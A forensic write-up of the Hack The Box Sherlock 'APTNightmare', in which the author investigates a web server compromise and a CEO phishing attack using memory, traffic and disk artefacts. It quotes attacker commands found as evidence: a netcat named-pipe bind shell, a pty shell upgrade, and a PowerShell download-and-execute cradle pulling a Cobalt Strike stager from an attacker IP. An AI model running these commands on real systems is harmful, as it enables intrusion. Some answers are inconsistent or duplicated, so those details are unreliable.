In today’s box I would be solving HTB sherlock APTnightmare link here -> https://app.hackthebox.com/sherlocks/APTNightmare?tab=play_sherlock
Scenario

`“We neglected to prioritize the robust security of our network and servers, and as a result, both our organization and our customers have fallen victim to a cyber attack. The origin and methods of this breach remain unknown. Numerous suspicious emails have been detected. In our pursuit of resolution, as an expert forensics investigator, you must be able to help us."`

This is my first run with analyzing memory dumps, let’s get right into it
Materials provided

    Diskimage CEO-US
    Memory_webserver.mem
    Ubuntu_5.3.0–70-generic_profile
    Traffic.pcap

TOOLS

    Volatility 2
    Autopsy
    Wireshark
    Virustotal
    Cyberchef
    Event viewer

Initial Triage

Spun up volatility to first analyze the mem dump. But before that we have to unzip that Ubuntu_5.3.0-70-generic_profile file which would give two files

unzip Ubuntu_5.3.0-70-generic_profile.zip
Archive: Ubuntu_5.3.0-70-generic_profile.zip
inflating: tools/linux/module.dwarf
`inflating: boot/System.map-5.3.0-70-generic``

Then ran this command to give us the banner python3 vol.py -f /home/kali/Desktop/Memory_WebServer.mem banners.Banners
This scans the raw memory for the Linux banner string (the same string you'd see at boot / in uname -a

Results -> `Volatility Foundation Volatility Framework 2.6.1 LinuxUbuntu_5_3_0–70-genericx64 — A Profile for Linux Ubuntu_5.3.0–70-generic x64
This would be useful to run baseline commands later on

Now let’s start triaging

 1.  python2 vol.py -f /home/kali/Desktop/Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-genericx64 linux_pslist to see an overview list of running processes during the time of imaging.



A few processes caught my eye such Apache tree spinning off sh, bash, python3, nc but moving on

2. python2 vol.py -f /home/kali/Desktop/Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-genericx64 linux_psaux provides a static, detailed snapshot of all currently running processes across your system including commands used.



Here is a more detailed view, notice the weird processes like:
Creates bind shell -> sh -c custom_command |mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe
starts up netcat listening -> nc -l -p 5555
python3 -c "import pty;pty.spawn('/bin/bash')" -> for landing a raw netcat shell to get a fully interactive bash

3. To check for bash history -> python2 vol.py -f /home/kali/Desktop/Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-genericx64 linux_bash, here i also found some very interesting details:




    Privilege escalation with PwnKit
    Anti-forensics attempt — clearing the bash history
    Recon after gaining root- checking for creditails is the /etc/passwd
    Payload staging — with cs-linux etc
    Persistence attempt with cron

Moving on to the PCAP

Having established the main ip addresses in the attack we would go directly to look at their traffic
ip.addr == 192.168.1.5 && ip.addr == 192.168.1.3



Major communication happened: 192.168.1.5(attacker) between 192.168.1.3(webserver) but we have to find the initial access from the attack, I identified that the attacker conducted a port scan against 192.168.1.3 using filter ip.dst == 192.168.1.5 && ip.src == 192.168.1.3 && tcp.flags.syn == 1 && tcp.flags.ack == 1 in wireshark to find out which port was opened and responded and we get = 25 (SMTP), 53 (DNS), 80(HTTP), 110(POP3), 119(NNTP), 143 (IMAP), 443 (HTTPS), 465 (SMTPS), 563 (NNTPS), 587 (SMTP Submission), 993 (IMAPS), 995 (POP3S), 2020 (Non-assisigned), 5222 (XMPP Jabber), 5555 (Attacker's bind shell). 15 in total and 14 if we subtract the non standard port.
Next we check for HTTP post request to check for further interaction with the server. using this filter in wireshark http contains "POST"




multiple trials from the attacker before a successful attempt and we would check that with, and we can find the password here
http contains "302"



Username = admin and password = Pass%40000 url decode-> Pass@000. That’s our entry point, this is how the attacker get into the server.

Now onto the questions:
Question

   1. What is the IP address of the infected web server?
    ANS : 192.168.1.3 (from our initial triage)
   2.  What is the IP address of the Attacker?
    ANS: 192.168.1.5
   3. How many open ports were discovered by the attacker?
    ANS: 14 port minus the non-assigned port
   4.  What are the first five ports identified by the attacker in numerical order during the enumeration phase, not considering the sequence of their discovery?
    ANS: 25,53,80,110,119
   5.  The attacker exploited a misconfiguration allowing them to enumerate all subdomains. What is the method used commonly referred to as (e.g, Unrestricted Access Controls)?
    ANS: This has to DNS, Since port 53 was open on the server, and a misconfiguration that exposes all subdomains at once is a classic DNS Zone Transfer (AXFR).
   6. How many subdomains were discovered by the attacker?
    ANS: since we have identified the misconfiguration exploited by the attacker, we can then filter for it response using ip.addr == 192.168.1.3 && dns.qry.type == 252



   7. What is the compromised subdomain (e.g., dev.example.com) ?
ANS: looking at previous http headers we can see that the server responses have mostly been coming from sysmon.cs-corp.cd
   8. What username and password were used to log in?
ANS: from previous triage admin:Pass@000_
   9. What command gave the attacker their initial access ?
ANS: After login the attack tried commands such as du=Show+Disk+Usage and ps=Show+Process+List but that didn't give the attacker initial from the previous bash_history we got |mkfifo /tmp/mypipe;cat /tmp/mypipe|/bin/bash|nc -l -p 5555 >/tmp/mypipe
   10. What is the CVE identifier for the vulnerability that the attacker exploited to achieve privilege escalation (e.g, CVE-2016-5195)? ANS: CVE-2021-4034
   11. What is the MITRE ID of the technique used by the attacker to achieve persistence (e.g, T1098.001)?
ANS: From the previous triage we saw that the attacker interacted with crontab in the bash history probably to achieve persistence from mitre attack T1053.003

   12. The attacker tampered with the software hosted on the ‘download’ subdomain with the intent of gaining access to end-users. What is the Mitre ATT&CK technique ID for this attack?
ANS: T1195.002

   13. What command provided persistence in the cs-linux.deb file?
ANS: let’s first extract the file from the traffic pcap



start by extracting the file with ar x cs-linux.deb . This extracts three files: debian-binary, - control.tar.gz, - data.tar.gz then we use this command to extract tar --zstd -xf data.tar.zst

[extra](20.png)

now we have the content of the file which is a very python script
using a custom script to extract the python file



ANS: echo cs-linux && >> ~/.bashrc

   14. The attacker sent emails to employees, what is the name of the running process that allowed this to occur?
ANS: The checked the process list to see if a mail server is running using the command python2 vol.py -f /home/kali/Desktop/Memory_WebServer.mem --profile=LinuxUbuntu_5_3_0-70-genericx64 linux_psaux | grep "mail"



citserver is the answer

   15. We received phishing email can you provide subject of email?
ANS: Right here i search the disk image to find the email but i couldn’t, So i checked the server to see if the mail remained in the memory with this strings /home/kali/Desktop/Memory_WebServer.mem | grep -i "subject:"



answer: Review Revised Privacy Policy

16. What is the name of the malicious attachment?
ANS: To find this answer, I open the extracted disk image in Autopsy and checked under the recent document. i found



after download the user (ceo-us) opened the file
ANS: policy.docm

17. What is the hostname for the compromised CEO?
ANS: using this string strings /home/kali/Desktop/Memory_WebServer.mem | grep -iE "rcpt|to:|CEO|executive" | grep -i "cs-corp" | sort -u



ceo-ru, ceo-us

18. What is the hostname for the compromised CEO?
ANS: apparently the disk image given is for ceo-us, so using autopsy we can easily find it



DESKTOP-ELS5JAK

19. What is the full path for the malicious attachment?
ANS: from the previous question 16 we can see the full file path C:\USERS\CEO-US\DOWNLOADS\POLICY.DOCM

20. What was the command used to gain initial access?
ANS: There are two possible ways to find this, one is through decoding the policy.docm document to find the hidden command but it is too obfuscated and a really long process while the other is checking the disk for evidence of code execution through the prefetch, so we would head over to “C:\Windows\prefetch\POWERSHELL.EXE-920BBA2A.pf”



to get the full command we can check the powershell event logs for command execution



right we can see the full command used

powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:806/a'))

20. What is the popular C2 framework associated with the malicious executable used to gain initial access?
ANS: upload the policy.docm document to virus total



Cobalt Strike

22. What is the payload type?
ANS: windows-beacon_http-reverse_http

23. What is the task name that has been added by the attacker?
ANS: for this we would head over to “C:\Windows\System32\Tasks” filtering the odd one out WindowsUpdateCheck



FULL ATTACK TIMELINE

Reconnaissance The attacker conducted a port scan of 192.168.1.3, identifying 14 open services. A misconfigured DNS server was then exploited via a zone transfer (AXFR) request, exposing 9 internal subdomains.

Initial Access The attacker targeted sysmon.cs-corp.cd, conducting SQL injection attempts before successfully authenticating with the credentials admin:Pass@000_. An OS command injection vulnerability in the dashboard’s host parameter was then exploited to execute a named-pipe bind shell, granting remote command execution as the www-data user.

Execution A bind shell was established on port 5555 using a named pipe relay (mkfifo/netcat/bash). The attacker upgraded to a fully interactive TTY session using Python’s pty.

Privilege Escalation The attacker downloaded and executed PwnKit (CVE-2021–4034), a publicly known vulnerability, escalating from www-data (uid 33) to root (uid 0). An attempt to delete bash history was made but failed to wipe from memory

Post-Exploitation With root access secured, the attacker harvested system credentials (/etc/passwd, /etc/shadow), reviewed Apache virtual host configuration, and established a Cobalt Strike beacon via a PowerShell stager (beacon_http-reverse_http) connecting to 192.168.1.5:806. A malicious crontab was also installed to ensure persistent access across reboots.

Infrastructure Abuse The attacker disguise the company’s own software download page by staging Cobalt Strike beacon payloads disguised as legitimate CustomerSync software for Windows (cs-windows.exe), Linux (cs-linux.deb), and Android (cs-android.apk). Separately, the attacker abused the Citadel mail server using the same compromised host to send internal phishing emails to employees.

CEO machineCompromise A phishing email with the subject “Review Revised Privacy Policy” was sent to both ceo-us and ceo-ru via the Citadel mail server. The attachment, policy.docm, contained a macro that executed a PowerShell stager fetching a Cobalt Strike beacon from 192.168.1.5:806. A scheduled task named WindowsUpdateCheck was created on the CEO’s machine to maintain persistence.

thank you for reading Sayōnara;)
